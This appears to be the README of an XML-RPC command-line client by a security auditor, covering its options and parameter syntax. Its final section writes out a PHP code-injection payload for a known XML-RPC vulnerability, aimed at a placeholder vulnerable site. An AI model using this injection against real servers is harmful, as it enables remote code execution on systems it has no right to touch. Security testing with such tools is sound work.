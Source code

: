 # Introduction #

The tool is designed to make, in command line, easily XML-RPC packet to a remote server.

# Author #

The author of tool is Daniel Garcia (dani@iniqua.com), Security auditor and contributor of www.iniqua.com

# Quick questions about XML-RPC #

A few quick questions:

  * Q: What is XML-RPC and is good for?
  * A: Is a way to communicate with remote systems and ask them to do something and send us the results. For example: You could ask the server 'X' that calculates the sum of two very large and we return the result.

  * Q: ¿Who uses it?
  * A: Wordpress or Drupal are two examples.

  * Q: To be used?
  * A: To provide some functionality such as: Consultation statistics, remote access by mobile phone, remote configuration ...

  * Q: What I can assert to me this tool?
  * A: Depends on the use of it. We could serve to perform certain exploits, extracting information from the service or, if you're a developer, test your Web service.

# Funcionality #

This tool allows you to communicate with an XML-RPC service and built packages as custom as you want.

Tool have several options:

### Required options ###
  * -t: Target. This parameters indicate URL where service is running: `http://www.vulnerablesite.com/xmlrpc.php`
  * -M: Method. Remote method or function that you want to call. In the example of the sum of numbers it can be: SumBigNumbers.
  * -P: Parameters. Explained below.

### Global Options ###
  * -h: show help dialog.
  * -v: Set verbose mode on. With this option activated, the program will show package before sending.
  * -u: User name for web server.
  * -p: Password.

### Parameters: How it works. ###

There are several types of parameters, according to specification. It can be found at http://en.wikipedia.org/wiki/XML-RPC.

According to type parameters are expressed in one form or another:

**All but, array and struct types:**

In this case syntax are: type1@value1!type2@value2!...!typeN@valueN. Type and value are a indivisible tuple, united by '@'. Separator between tuples are '!' symbol. For example:

```
-P integer @12!String@string
```

**Array type:**

Array type may have several values inside. These values are in pairs or tuples. Each pair is separated by '#' symbol. Each tuple are splitted by '%' symbol. Example:

```
-P array@type1#value1%type1#value2%...%typeN#valueN
```

**Struct type:**

Similar to array, but with 3 params for tuple. Each tuple must be member name, value and type of value. Syntax is equal to array but the tuple has a length of 3. Example:
```
-P struct@name1#type1#value1%...%nameN#typeN#valueN
```

**Custom type:**

If our type is no above, we can make our own type. Syntax is: custom@OurVal1#OurVal2%...%OurValN#OurValN. Example:

```
-P custom@BigInt#99999999999%NegativeInt#-10000
```

This command will produce following code:

```
<BigInt>
   99999999999
</BigInt>
<NegativeInt>
   -10000
</NegativeInt>
```

# Real example #

If we look a bit on the internet we can find a vulnerability associated with XML-RPC: http://www.securityfocus.com/bid/14088/exploit.

If we want reproduce these code we can write the following command:

**Windows:**

```
RPCClient.exe -t http://www.sitiovulnerable.com/xmlrpc.php -v -M test.method -P "custom@value#’,”)); phpinfo(); exit;/*”
```

**Linux/MAC/UNIX compatible:**

```
Mono RPCClient.exe -t http://www.sitiovulnerable.com/xmlrpc.php -v -M test.method -P ”custom@value#’,”)); phpinfo(); exit;/*”
```

It is very important to stress the importance of the quotes that are at the beginning and end of the parameters, because without them shell interpret the command line of what is hidden and not happen in full as a parameter to rpc-client.